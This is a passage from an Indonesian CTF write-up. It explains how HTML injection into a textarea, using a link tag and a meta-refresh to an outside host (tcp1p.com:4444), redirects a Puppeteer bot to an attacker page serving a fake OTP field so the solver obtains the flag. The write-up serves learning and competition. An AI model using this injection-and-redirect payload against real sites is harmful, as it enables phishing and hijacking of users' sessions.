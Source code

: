 `page.$eval` memiliki fungsi seperti dibawah ini, dimana dia memiliki fungsi seperti document.querySelector.

![](https://i.imgur.com/UOAtrsc.png)

Jadi rencana eksploitasi kita kali ini dengan cara membuat redirect ke attacker site dimana disana ada tag input yang nanti akan memberikan otp palsu.

Berikut isi dari attacker server.

```html 
<html>
<head>
</head>
        <input id="otp" name="otp" type="text" value="foo" disabled />
</html>
```

Kita berikan input seperti berikut pada text area di halaman utama.

```
<link rel="stylesheet" href="http://tcp1p.com:4444">
<meta http-equiv = "refresh" content = "0; url = http://tcp1p.com:4444" />
```

Saya meberikan `<link>` tag auntuk memberikan delay pada bot, agar tidak terjadi race condition dan menyebabkan error di sisi bot.

![](https://i.imgur.com/qEZUoB2.png)

Kita inputkan foo, dan kita akan mendapatkan flagnya.

![](https://i.imgur.com/VE09H8F.png)

## Filter Madness
![](Pasted%20image%2020230323041112.png)
